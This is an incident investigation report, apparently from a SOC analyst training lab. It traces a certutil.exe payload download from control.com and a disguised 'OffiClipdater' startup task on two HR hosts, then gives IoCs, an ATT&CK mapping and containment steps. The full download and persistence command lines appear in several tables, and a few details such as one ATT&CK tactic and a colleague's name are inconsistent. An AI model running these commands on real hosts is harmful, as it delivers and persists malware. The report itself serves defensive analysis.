


# Incident Investigation Report – Suspicious Scheduled Task & Payload Download (HR Compromise)

**Incident Type:** Suspicious Process Execution / Persistence & Payload Download  
**Status:** Completed  
**Date of Analysis:** 10 June 2026  

---

## Executive Summary

On **4 March 2022** at **10:38:28 UTC**, user **`Chris.fort`** (HR department) executed `certutil.exe` to download a file from `https://control.com/e4d11035_benign.exe` onto host **`HR_01`**. Two days later, on **6 March 2022** at **14:23:40 UTC**, the same user created a scheduled task named **`OffiClipdater`** on host **`HR_02`**, configured to run `C:\Users\Chris.fort\AppData\Local\Temp\update.exe` at system startup. The downloaded file (`e4d11035_benign.exe`) is highly likely the same as `update.exe` (renamed), establishing a classic persistence mechanism. The task name mimics legitimate Office updaters, but the Temp-folder path and manual creation are clear red flags. A review of additional process-creation logs showed no other overt anomalies on these hosts. The incident was escalated per SOC L1 procedures; the malicious domain was blocked, the affected hosts isolated, and the user account temporarily suspended pending further investigation.

---

## Investigation Workflow

The investigation followed a structured log-analysis approach using Event ID 4688 (process creation) logs from Splunk:

1. **Log Review** – extract key fields from all suspicious events (certutil.exe and schtasks.exe).  
2. **Command-Line Analysis** – interpret the arguments to identify download and persistence actions.  
3. **Cross-reference** – correlate events by user, host, and timeframe.  
4. **Threat Assessment** – evaluate the legitimacy of the observed activities.  
5. **IoC Extraction** – identify malicious indicators (domain, URL, file paths, task name).  
6. **MITRE ATT&CK Mapping** – classify adversary techniques.  
7. **Recommendations** – propose containment, eradication, and long-term improvements.

---

## 1. Payload Download – certutil.exe (Event 1)

**Source Log:** `winlogs` index, Event ID 4688, dated 2022-03-04 10:38:28 UTC.

| Field | Value |
|-------|-------|
| **EventTime** | `2022-03-04T10:38:28Z` |
| **HostName** | `HR_01` |
| **UserName** | `Chris.fort` |
| **ProcessName** | `C:\Windows\System32\certutil.exe` |
| **CommandLine** | `certutil.exe -urlcache -f - https://control.com/e4d11035_benign.exe` |
| **NewProcessId** | `0x82194b` |
| **ProcessID** | `9912` |
| **EventID** | `4688` |
| **Category** | `Process Creation` |

**Interpretation:**  
- The attacker abused `certutil.exe`, a legitimate Windows binary, to download a file from a remote server.  
- The `-urlcache -f` flags force a fresh download; the trailing `-` writes the file to the current working directory (likely `%TEMP%` or the user's home folder).  
- The source domain **`control.com`** is malicious (previously seen in other intelligence).  
- The downloaded file name, **`e4d11035_benign.exe`**, is deliberately misleading — "benign" is a common social-engineering tactic.

This event marks the initial **ingress tool transfer**.

---

## 2. Scheduled Task Creation – schtasks.exe (Event 2)

**Source Log:** `winlogs` index, Event ID 4688, dated 2022-03-06 14:23:40 UTC.

| Field | Value |
|-------|-------|
| **EventTime** | `2022-03-06T14:23:40Z` |
| **HostName** | `HR_02` |
| **UserName** | `Chris.fort` |
| **SubjectDomainName** | `cybertees.local` |
| **ProcessName** | `C:\Windows\System32\schtasks.exe` |
| **CommandLine** | `/create /tn OffiClipdater /tr "C:\Users\Chris.fort\AppData\Local\Temp\update.exe" /sc onstart` |
| **NewProcessId** | `0x885fd7` |
| **ProcessID** | `7933` |

**Interpretation:**  
- A scheduled task named **`OffiClipdater`** (mimicking `OfficeUpdate` or similar) was created.  
- Trigger: **`onstart`** – runs every time the system boots.  
- Action: executes **`update.exe`** located in the user's Temp folder.  
- The task name and the executable path strongly indicate a persistence mechanism for the previously downloaded payload.  
- It is highly probable that `e4d11035_benign.exe` was renamed to `update.exe` and placed in the Temp folder.

---

## 3. Additional Process-Creation Events (Context)

A broader review of process-creation logs from the same timeframe reveals routine activities:

| CommandLine | ProcessName | User Name |
|-------------|-------------|-----------|
| `/create /tn OffiClipdater /tr "C:\Users\Chris.fort\AppData\Local\Temp\update.exe" /sc onstart` | `schtasks.exe` | **Chris.fort** |
| `/nostartup "y:\accounting\internal.accdb"` | `msaccess.exe` | **Chris.fort** |
| `/nostartup "y:\accounting\internal.accdb"` | `msaccess.exe` | **Daina** |
| `test.bat` | `jenkins-slave.exe` | Bell |
| `promote intermandated clouds 2019-01-22.pptx` | `POWERPNT.exe` | Daina |
| `google.com` | `ping.exe` | James |
| `cup -y all` | `choco.exe` | James |
| `company holiday calendar 2019-01-12.docx` | `WINWORD.exe` | Moin |
| `a0155797-bba8-405b-9efd-a2d6c1fec79e` | `conhost.exe` | SYSTEM |
| `1074 989 5eca69ec5d65` | `consent.exe` | SYSTEM |
| `/silent /all` | `bginfo.exe` | SYSTEM |
| `/processid:{f68f80d2-3517-4c49-83ed-0097ea969b4d}` | `dllhost.exe` (SysWOW64) | SYSTEM |
| `/processid:{873007c9-6179-4b6f-83cb-ab7d01c19cca}` | `dllhost.exe` (System32) | SYSTEM |

**Observations:**  
- Chris.fort also opened an Access database file (`internal.accdb`) — this appears legitimate for HR work.  
- No other user from HR (Haroon, Diana) appears in this snippet, but Daina (Marketing) also opened the same database — possibly a shared resource.  
- SYSTEM-level processes are typical background activity.  
- **No other suspicious commands** were found in this set.

Thus, the investigation focuses on the two events involving Chris.fort.

---

## 4. Correlation & Timeline

| Date/Time (UTC) | User | Host | Action |
|-----------------|------|------|--------|
| 2022-03-04 10:38:28 | Chris.fort | HR_01 | Downloaded `e4d11035_benign.exe` from `control.com` via `certutil.exe` |
| 2022-03-06 14:23:40 | Chris.fort | HR_02 | Created scheduled task `OffiClipdater` to run `update.exe` at startup |

**Hypothesis:** The downloaded file was moved/renamed to `update.exe` and placed in `C:\Users\Chris.fort\AppData\Local\Temp\`. The scheduled task ensures execution after reboot, providing persistence. The two-day gap may indicate manual staging or testing.

---

## 5. Indicators of Compromise (IoC)

| Type | Value | Notes |
|------|-------|-------|
| **User Account** | `Chris.fort` | HR user who executed both malicious commands |
| **Process** | `certutil.exe` | Abused to download payload |
| **Process** | `schtasks.exe` | Abused to create persistence |
| **Domain** | `control.com` | Malicious download domain |
| **URL** | `https://control.com/e4d11035_benign.exe` | Full payload URL |
| **Downloaded File** | `e4d11035_benign.exe` | Malicious executable (renamed to `update.exe`) |
| **Scheduled Task** | `OffiClipdater` | Persistence task name |
| **File Path** | `C:\Users\Chris.fort\AppData\Local\Temp\update.exe` | Suspicious executable location |
| **Command Line** | `certutil.exe -urlcache -f - https://control.com/e4d11035_benign.exe` | Download command |
| **Command Line** | `/create /tn OffiClipdater /tr "C:\Users\Chris.fort\AppData\Local\Temp\update.exe" /sc onstart` | Task creation command |

---

## 6. MITRE ATT&CK Mapping

| Technique | Tactic | ID | Evidence |
|-----------|--------|----|----------|
| Ingress Tool Transfer | Execution | T1105 | `certutil.exe` downloading payload from `control.com` |
| System Binary Proxy Execution | Defense Evasion | T1218 | `certutil.exe` used as trusted binary |
| Scheduled Task | Persistence, Execution | T1053.005 | `schtasks.exe` creating `OffiClipdater` with `onstart` trigger |
| Command and Control | C2 | T1071.001 | HTTPS connection to `control.com` (implied) |
| Data from Local System | Collection | T1005 | Not directly observed, but possible post‑execution |

---

## 7. Conclusion & Recommendations

**Conclusion:**  
The investigation confirmed a successful compromise of HR hosts (`HR_01` and `HR_02`) via a two‑stage attack:  
1. **Payload download** using `certutil.exe` from malicious domain `control.com`.  
2. **Persistence** via a scheduled task named `OffiClipdater`, which executes `update.exe` at system startup.  

The actor used a living‑off‑the‑land (LOLBin) approach to evade detection. No lateral movement or data exfiltration was observed in the provided logs, but the persistence mechanism indicates long‑term access intent. The incident was contained by isolating the hosts, blocking the domain, and disabling the user account.

### Immediate Actions (L1)
1. **Isolate** `HR_01` and `HR_02` from the network.  
2. **Disable** `Chris.fort` account and force password reset.  
3. **Block** `control.com` at perimeter firewall and DNS level.  
4. **Delete** `update.exe` and `e4d11035_benign.exe` from all locations (search for variants).  
5. **Remove** the `OffiClipdater` scheduled task from all hosts (check for similar tasks).  

### Long‑term Recommendations
1. **Implement application whitelisting** to restrict `certutil.exe` and `schtasks.exe` usage to authorised admins.  
2. **Enable Sysmon** to capture process command‑line details (already partially done).  
3. **Create a SIEM alert** for `certutil.exe -urlcache` combined with external domains.  
4. **Create a SIEM alert** for suspicious scheduled task names (e.g., misspelled updaters) with `onstart` triggers.  
5. **Conduct user awareness training** on phishing and social engineering — the initial vector is still unknown but often starts with email.  

### Lessons Learned
1. **LOLBins are difficult to detect** without command‑line monitoring – we caught it due to detailed logging.  
2. **Correlation across hosts** (HR_01 and HR_02) revealed the full attack chain.  
3. **Task naming obfuscation** (OffiClipdater) is common; analysts should flag any task not created by authorised software.  
4. **Timeline analysis** (two‑day gap) suggests manual intervention; this may indicate a human adversary, not an automated worm.  

---